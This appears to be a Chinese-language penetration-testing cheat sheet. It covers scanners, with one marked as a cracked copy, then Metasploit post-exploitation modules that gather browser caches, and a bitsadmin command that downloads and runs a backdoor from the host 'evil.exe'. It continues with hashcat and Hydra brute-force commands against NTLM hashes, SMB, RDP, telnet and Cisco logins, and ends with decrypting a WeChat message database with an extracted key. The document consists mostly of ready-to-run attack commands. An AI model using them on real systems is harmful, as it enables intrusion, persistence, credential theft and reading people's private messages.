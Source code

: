 #### Vscan：开源- 快速、跨平台的网站漏洞扫描工具

#### Invicti： 客户端的 （Pwn3r破解）

#### nmap：漏扫命令



### MSF后渗透

run post/windows/gather/dumplinks #获取最近的文件操作

run post/windows/gather/enum_ie #获取IE缓存

run post/windows/gather/enum_chrome #获取Chrome缓存

**bitsadmin** /create backdoorbitsadmin /addfile backdoor "http://evil.exe/backdoor.exe" "C:\1.exe"bitsadmin /SetNotifyCmdLine backdoor C:\1.exe NULbitsadmin /SetMinRetryDelay "backdoor" 60 bitsadmin /resume backdoor







## 暴力破解

HashCat：j基于GPU的爆破破解，速度快

.\hashcat.exe -a 3 -m 1000 '470017e8152a8e17375216f03b66a768' -i ?H?H?H?H?H?H?H

.\hashcat.exe -a 3 -m 1000 '470017e8152a8e17375216f03b66a768' -i --custom-charset1 ?l?u?d ?1?1?1?1?1?1?1?1?1?1?1?1

Hydra：Hydra（九头蛇）主要用于登录爆破。

破解smb： hydra -l 用户名字典 -P 密码字典 IP地址 smb

Windows远程桌面破解rdp(windows远程登录)：hydra ip地址 rdp -l administrator -P 密码字典.txt -V 

hydra ip地址 telnet -l 用户字典.txt -P 密码字典.txt -t 32 -s 23 -e ns -f -V 

cisco：hydra -P 密码字典 IP地址 cisco 

hydra -m cloud -P 密码字典 IP地址 cisco-enable





## 微信取证

时间戳=TEXT((A2/1000+8*3600)/86400+70*365+19,"yyyy-mm-dd hh:mm:ss")

python.exe decode.py -k 4546DBA8BB1946438D17DABFBDC546382C39AA5FE9D848D18FF69C25C13E39B0 -d C:\Users\Administrator\Desktop\MSG1.db 

解密数据库

需要提取KEY（原理是内存偏移）

pip install PyWxDump
